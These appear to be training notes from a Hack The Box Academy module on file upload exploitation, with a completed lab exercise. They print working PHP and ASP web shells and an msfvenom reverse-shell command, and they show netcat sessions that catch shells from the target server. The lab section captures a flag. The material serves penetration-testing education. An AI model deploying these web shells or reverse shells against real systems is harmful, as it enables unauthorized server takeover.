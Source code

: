 ﻿The final step in exploiting this web application is to upload the malicious script in the same language as the web application, like a web shell or a reverse shell script. Once we upload our malicious script and visit its link, we should be able to interact with it to take control over the back-end server.

---

## Web Shells

We can find many excellent web shells online that provide useful features, like directory traversal or file transfer. One good option for`PHP` is [phpbash](https://github.com/Arrexel/phpbash), which provides a terminal-like, semi-interactive web shell. Furthermore, [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) provides a plethora of web shells for different frameworks and languages, which can be found in the`/opt/useful/seclists/Web-Shells` directory in`PwnBox`.

We can download any of these web shells for the language of our web application (`PHP` in our case), then upload it through the vulnerable upload feature, and visit the uploaded file to interact with the web shell. For example, let's try to upload`phpbash.php` from [phpbash](https://github.com/Arrexel/phpbash) to our web application, and then navigate to its link by clicking on the Download button:

 ![](https://academy.hackthebox.com/storage/modules/136/file_uploads_php_bash.jpg)

As we can see, this web shell provides a terminal-like experience, which makes it very easy to enumerate the back-end server for further exploitation. Try a few other web shells from SecLists, and see which ones best meet your needs.

---

## Writing Custom Web Shell

Although using web shells from online resources can provide a great experience, we should also know how to write a simple web shell manually. This is because we may not have access to online tools during some penetration tests, so we need to be able to create one when needed.

For example, with`PHP` web applications, we can use the`system()` function that executes system commands and prints their output, and pass it the`cmd` parameter with`$_REQUEST['cmd']`, as follows:

Code: php

```php
<?php system($_REQUEST['cmd']); ?>
```

If we write the above script to`shell.php` and upload it to our web application, we can execute system commands with the`?cmd=` GET parameter (e.g.`?cmd=id`), as follows:

 ![](https://academy.hackthebox.com/storage/modules/136/file_uploads_php_manual_shell.jpg)

This may not be as easy to use as other web shells we can find online, but it still provides an interactive method for sending commands and retrieving their output. It could be the only available option during some web penetration tests.

**Tip:** If we are using this custom web shell in a browser, it may be best to use source-view by clicking`[CTRL+U]`, as the source-view shows the command output as it would be shown in the terminal, without any HTML rendering that may affect how the output is formatted.

Web shells are not exclusive to`PHP`, and the same applies to other web frameworks, with the only difference being the functions used to execute system commands. For`.NET` web applications, we can pass the`cmd` parameter with`request('cmd')` to the`eval()` function, and it should also execute the command specified in`?cmd=` and print its output, as follows:

```asp
<% eval request('cmd') %>
```

We can find various other web shells online, many of which can be easily memorized for web penetration testing purposes. It must be noted that`in certain cases, web shells may not work`. This may be due to the web server preventing the use of some functions utilized by the web shell (e.g.`system()`), or due to a Web Application Firewall, among other reasons. In these cases, we may need to use advanced techniques to bypass these security mitigations, but this is outside the scope of this module.

---

## Reverse Shell

Finally, let's see how we can receive reverse shells through the vulnerable upload functionality. To do so, we should start by downloading a reverse shell script in the language of the web application. One reliable reverse shell for`PHP` is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell. Furthermore, the same [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) we mentioned earlier also contains reverse shell scripts for various languages and web frameworks, and we can utilize any of them to receive a reverse shell as well.

Let's download one of the above reverse shell scripts, like the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell), and then open it in a text editor to input our`IP` and listening`PORT`, which the script will connect to. For the`pentestmonkey` script, we can modify lines`49` and`50` and input our machine's IP/PORT:


```php
$ip = 'OUR_IP'; // CHANGE THIS
$port = OUR_PORT; // CHANGE THIS
```

Next, we can start a`netcat` listener on our machine (with the above port), upload our script to the web application, and then visit its link to execute the script and get a reverse shell connection:

```shell-session
smoothment@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we successfully received a connection back from the back-end server that hosts the vulnerable web application, which allows us to interact with it for further exploitation. The same concept can be used for other web frameworks and languages, with the only difference being the reverse shell script we use.

---

## Generating Custom Reverse Shell Scripts

Just like web shells, we can also create our own reverse shell scripts. While it is possible to use the same previous`system` function and pass it a reverse shell command, this may not always be very reliable, as the command may fail for many reasons, just like any other reverse shell command.

This is why it is always better to use core web framework functions to connect to our machine. However, this may not be as easy to memorize as a web shell script. Luckily, tools like`msfvenom` can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place. We can do so as follows for`PHP`:

```shell-session
smoothment@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes
```

Once our`reverse.php` script is generated, we can once again start a`netcat` listener on the port we specified above, upload the`reverse.php` script and visit its link, and we should receive a reverse shell as well:

```shell-session
smoothment@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Similarly, we can generate reverse shell scripts for several languages. We can use many reverse shell payloads with the`-p` flag and specify the output language with the`-f` flag.

While reverse shells are always preferred over web shells, as they provide the most interactive method for controlling the compromised server, they may not always work, and we may have to rely on web shells instead. This can be for several reasons, like having a firewall on the back-end network that prevents outgoing connections or if the web server disables the necessary functions to initiate a connection back to us.


# Question
---

![Pasted image 20250206144627.png](../../../../IMAGES/Pasted%20image%2020250206144627.png)

We can upload a file with the following contents:

```php
<?php system($_GET['cmd']); ?>
```

This is a basic webshell, since the validation of uploaded files is none, we can upload this with no problem. 

The output is the following:

![Pasted image 20250206144813.png](../../../../IMAGES/Pasted%20image%2020250206144813.png)

We can execute commands in the back-end server, let's look around for a flag, it would be easier to fire up burp so let's do it:

If we use `ls+/`, we can see the following:

```
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

So, we can simply read the flag by doing:

```
cat+/flag.txt
```

```
HTB{g07_my_f1r57_w3b_5h3ll}
```

